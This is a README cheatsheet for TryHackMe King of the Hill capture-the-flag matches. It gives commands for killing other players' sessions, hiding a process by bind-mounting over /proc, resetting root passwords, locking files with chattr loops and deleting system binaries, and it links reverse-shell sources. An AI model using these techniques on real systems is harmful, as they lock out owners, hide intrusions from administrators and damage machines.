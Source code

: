 # Koth-Hacker-Vs-Hacker_Techniques-
TryHackMe KOTH Cheatsheet  
-----------------------------   
<div align="center">

![3](https://media.giphy.com/media/oVvhEYvWDvE1G/giphy.gif)
</div>

Description:
In the King of the Hill (KoTH) challenge, your goal is to compromise the target machine and gain access to the coveted /root/king.txt file on Linux machines or C:\king.txt (or C:\Users\Administrator\king-server\king.txt) on Windows machines. Once you've successfully breached the system, your task is to maintain access and defend the king file from other players.

-----------------------------  
<div align="center">

![3](https://media.giphy.com/media/xsCevAab5ufj37BeGR/giphy.gif)
</div>

## --> [ Hacker Vs Hacker ] <--
 
- you can check who is on the machine, by using the following command. 
```
ps aux | grep pts
```
- If you're looking for your pts id/number: 
```
tty
```
- killing session of other players:
```
pkill -9 -t pts/$0   # Here $0 = pts/id number
```


- If your opponent killing your session, again and again. you can use this command to hide your shell (pts id) on the machine

- To get the PID of your PTS. 

```
ps aux 
```
- Hide your PTS
```
mount -o bind /tmp /proc/your-PID-here
```
if you use this command then your opponent will not be able to kill your session Anymore ;) 

## --> [ Useful Websites to get Reverse shell & Privilege escalation ] <--


- Use this website to generate Reverse shell command (bash,python,PHP,socat)
```
https://www.revshells.com/ 
```
- Use this github repo to get code of php-reverse-shell.php 
```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 
```
- GTFoBins is a curated list of Unix binaries that can be used to escalate Privilege:
``` 
https://gtfobins.github.io/ 
```
## Finding Binaries and flags  
<div align="center">

![3](https://media.giphy.com/media/xT8qAXT3f4sZTvjqZq/giphy.gif)
</div>

- If you're looking for root permissions Binaries:
```
1) find / -perm -u=s -type f 2>/dev/null
```
```
2) find / -type f \( -perm -4000 -o -perm -2000 \) -print 
```
```
3) find / -perm /4000 2>/dev/null
```
- If you're looking for sudo permissions Binaries:
```
sudo -l 
```
- If you're looking for Flags:
```
1) find / -name "user.txt" 2>/dev/null
```
```
2) find / -name root.txt 2>/dev/null 
```
```
3) find / -name .flag 2>/dev/null
```

## --> [ Changing Passwords ] <--

- Change the password for the root user and other existing users using one-liners:

```
1) echo -e "hackerpassword\nhackerpassword" | passwd root
```
```
2) echo -e "hackerpassword\nhackerpassword" | passwd user 
```

## --> [ Protect Your Name in King.txt ] <--  

- protect king.txt using chattr.

```
[Activate]   chattr +i king.txt 

```

```
[Deactivate] chattr -i king.txt 

```

- Use chattr loops to protect  lock your name in king.txt

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n "YourNick" >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &  

```
- Use Chattr for lock /root folder.
```
cd / && chattr +i root
```
- [ Remove && Install Chattr binarie in target machine ]

It is forbidden to change the permission of binaries in Koth Match, for example give a chmod 700 /usr/bin/find, except chattr, the chattr binary is allowed to remove from the machine.( remove from the machine after you use: [Activate] chattr +i king.txt ). 
 
- Remove chattr so no one will be able to change the attributes of king.txt 
```
[Deactivate] rm /usr/bin/chattr
```
- but if you have access to a koth box and you don't have chattr you can get a chattr binary from github and compile it on the machine:
```
wget https://raw.githubusercontent.com/posborne/linux-programming-interface-exercises/master/15-file-attributes/chattr.c 
```
```
gcc chattr.c -o chattr 
```
```
./chattr +i king.txt 
```

## [ Unmount other player name from king.txt]

if you try to put your nick  in /root/king.txt and the message "Read-only file system" appears, that means the other player is used Mount technique. 

- Unmount king.txt using umount.
```
umount -l /root
umount -l /root/king.txt 
```
 


